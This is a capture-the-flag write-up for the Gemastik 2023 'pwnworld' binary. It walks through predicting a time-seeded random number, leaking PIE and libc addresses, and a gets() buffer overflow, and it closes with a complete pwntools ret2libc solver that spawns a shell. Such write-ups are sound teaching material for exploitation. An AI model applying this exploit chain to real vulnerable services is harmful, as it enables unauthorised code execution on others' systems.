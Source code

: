 # My Write Up For Gemastik PWN Challenges

Name Challenges : pwnworld

## Information Gathering
> pwn checksec pwnworld
```
[*] '/mnt/d/CTF/gemastik/2023/pwn/pwn_world/pwnworld'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
> Protection is PIE ( so the memory is random, can't hit a address, leaked the PIEBASE first, NX make shellcode not work, and full RELRO make GOT is secure)

## Disassemble Using Ghidra
```main
undefined8 main(void)

{
  char local_118 [268];
  int local_c;
  
  setup();
  local_c = game();
  if (local_c == 0) {
    printf("You lose! have any feedback for my game? ");
    fgets(local_118,0x100,stdin);
    puts("Thanks for your feedback");
  }
  else {
    printf("Since you win, I will give this to you: %p\n",&gift);
    printf("Any feedback? ");
    gets(local_118);
  }
  puts("See yaa");
  return 0;
}
```
```
undefined4 game(void)

{
  char local_28 [20];
  int local_14;
  int local_10;
  undefined4 local_c;
  
  local_10 = get_random();
  local_c = 0;
  printf("What number would you like to guess? ");
  fgets(local_28,0x10,stdin);
  local_14 = atoi(local_28);
  if (local_14 == 0) {
    puts("Oops that\'s not the number");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  if (local_14 == local_10) {
    puts("Congrats! You win!");
    local_c = 1;
  }
  else {
    puts("Oops You lose");
  }
  return local_c;
}
```
```
int get_random(void)

{
  int iVar1;
  time_t tVar2;
  
  tVar2 = time((time_t *)0x0);
  srand((uint)tVar2);
  iVar1 = rand();
  return iVar1 % 417;
}
```
### Attacking Flow
From the code we know clearly, bypass the random number first, because the random number using null time you can bypass using CDLL alghorithm. After You pass the random number, you will get address that help you for next attacking, my assuming it's given PIE address. Second flow is BOF in gets() func, and cuz nothing function is interest, i will perform RET2LIBC attack. 

### BYPASS RANDOM NUMBER
```python
from pwn import *
from ctypes import CDLL, c_void_p

libcc = CDLL("libc.so.6")

def getRand():
    current_time = libcc.time(0)
    libcc.srand(current_time)
    return libcc.rand() % 417

```
![alt text](image.png)

yes given the PIE address, next let's calculate PIEBASE.

![alt text](<Screenshot 2024-06-22 032352.png>)

next sub leaked address using PIEBASE sub result, yes get the base of PIEBASE. Next get the libc address, i'm using puts func to perform.

```python
pop_rdi = base + 0x00000000000012b5
    ret_address = base + 0x000000000000101a
    info(f'pop_rdi -> {hex(pop_rdi)}')
    puts_got = elf.got['puts']
    puts_plt = elf.plt.puts
    payload = flat(
        b'A' * 280,
        pop_rdi,
        base + puts_got,
        base + puts_plt,
        base + elf.sym['main']
    )
    # pause()
    r.sendlineafter(b'feedback? ', payload)
    r.recvuntil(b'See yaa\n')
    leaked = r.recvline()
    libc_leaked = unpack(leaked.strip().ljust(8, b'\x00'))
    info(f'libc leaked -> {hex(libc_leaked)}')

```

![alt text](<Screenshot 2024-06-22 032244.png>)

![alt text](<Screenshot 2024-06-22 032237.png>)

![alt text](image-1.png)

Yes all i need is clearly, so it's my finall solver

```python
#!/usr/bin/env python3
from pwn import *
from ctypes import CDLL, c_void_p

libcc = CDLL("libc.so.6")

def getRand():
    current_time = libcc.time(0)
    libcc.srand(current_time)
    return libcc.rand() % 417

exe = ELF("./pwnworld")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
# ld = ELF("./ld-2.37.so")

elf = context.binary = exe
context.log_level = 'DEBUG'


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("addr", 1337)

    return r

padding = 280
def main():
    r = conn()

    # good luck pwning :)
    info(f'{getRand()}')
    r.sendlineafter(b'? ', f'{getRand()}'.encode())
    # pause()
    r.recvuntil(b'you: ')
    leak = int(r.recvline(), 16)
    base = leak - 0x404c
    pause()
    info(f'leak PIEBASE -> {hex(base)}')
    # pause()
    pop_rdi = base + 0x00000000000012b5
    ret_address = base + 0x000000000000101a
    info(f'pop_rdi -> {hex(pop_rdi)}')
    puts_got = elf.got['puts']
    puts_plt = elf.plt.puts
    payload = flat(
        b'A' * 280,
        pop_rdi,
        base + puts_got,
        base + puts_plt,
        base + elf.sym['main']
    )
    # pause()
    r.sendlineafter(b'feedback? ', payload)
    r.recvuntil(b'See yaa\n')
    leaked = r.recvline()
    libc_leaked = unpack(leaked.strip().ljust(8, b'\x00'))
    info(f'libc leaked -> {hex(libc_leaked)}')
    libc.address = libc_leaked - libc.sym['puts']
    # print(leak)
    info(f'libc puts leaked -> {hex(libc.address)}')
    r.sendlineafter(b'? ', f'{getRand()}'.encode())
    payload2 = flat(
        b'A' * 280,
        pop_rdi,
        next(libc.search(b"/bin/sh\x00")),
        ret_address,
        # ret_address,
        libc.sym.system,
    )
    r.sendlineafter(b'? ', payload2)
     
    # pause()
    # r.recvline()
    r.interactive()


if __name__ == "__main__":
    main()
```

![alt text](image-2.png)